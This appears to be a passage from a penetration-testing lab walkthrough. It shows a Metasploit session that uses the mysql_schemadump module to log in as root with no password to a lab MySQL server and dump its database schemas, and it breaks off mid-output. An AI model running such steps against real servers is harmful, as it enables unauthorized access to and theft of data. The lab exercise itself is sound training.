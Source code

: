 ```
+----+------------+-----------+-----------------------------+------------+---------------------+
|  1 | Gregoria   | Lowe      | gutmann.rebekah@example.net | 1982-03-09 | 1983-01-11 11:25:43 |
|  2 | Ona        | Anderson  | ethelyn02@example.net       | 1980-06-02 | 1972-05-05 07:26:52 |
|  3 | Emile      | Lakin     | rippin.freda@example.com    | 1979-04-06 | 2010-05-30 20:03:07 |
|  4 | Raul       | Barton    | mschiller@example.com       | 1976-05-06 | 1979-02-08 12:32:29 |
|  5 | Sofia      | Collier   | rodrigo34@example.net       | 1978-06-09 | 1991-05-01 10:02:54 |
|  6 | Wellington | Fay       | jared98@example.com         | 2011-08-11 | 1992-05-27 23:20:20 |
|  7 | Garnet     | Braun     | hickle.howell@example.net   | 1990-04-27 | 2010-04-13 09:48:36 |
|  8 | Alessia    | Kuphal    | skiles.reggie@example.net   | 1978-04-06 | 2014-08-22 21:23:00 |
|  9 | Deven      | Carroll   | savanah.zulauf@example.net  | 2007-02-15 | 1998-02-16 11:45:32 |
| 10 | Issac      | Stanton   | ozella10@example.net        | 2013-10-13 | 1976-12-09 13:18:45 |
+----+------------+-----------+-----------------------------+------------+---------------------+
10 rows in set (0.000 sec)
```

Dump the schema of all databases from the server using suitable metasploit module?

[MYSQL Schema Dump](https://www.rapid7.com/db/modules/auxiliary/scanner/mysql/mysql_schemadump/)

该模块从 MySQL 数据库服务器中提取模式信息。

```
msf5 > use auxiliary/scanner/mysql/mysql_schemadump
msf5 auxiliary(scanner/mysql/mysql_schemadump) > show options

Module options (auxiliary/scanner/mysql/mysql_schemadump):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   DISPLAY_RESULTS  true             yes       Display the Results to the Screen
   PASSWORD                          no        The password for the specified username
   RHOSTS                            yes       The target address range or CIDR identifier
   RPORT            3306             yes       The target port (TCP)
   THREADS          1                yes       The number of concurrent threads
   USERNAME                          no        The username to authenticate as

msf5 auxiliary(scanner/mysql/mysql_schemadump) > setg RHOSTS 192.41.63.3
RHOSTS => 192.41.63.3
msf5 auxiliary(scanner/mysql/mysql_schemadump) > set USERNAME root
USERNAME => root
msf5 auxiliary(scanner/mysql/mysql_schemadump) > run

[+] 192.41.63.3:3306      - Schema stored in: /root/.msf4/loot/20220826013404_default_192.41.63.3_mysql_schema_358644.txt
[+] 192.41.63.3:3306      - MySQL Server Schema 
 Host: 192.41.63.3 
 Port: 3306 
 ====================

---
- DBName: books
  Tables:
  - TableName: authors
    Columns:
    - ColumnName: id
      ColumnType: int(11)
    - ColumnName: first_name
      ColumnType: varchar(50)
    - ColumnName: last_name
      ColumnType: varchar(50)
    - ColumnName: email
      ColumnType: varchar(100)
    - ColumnName: birthdate
      ColumnType: date
    - ColumnName: added
```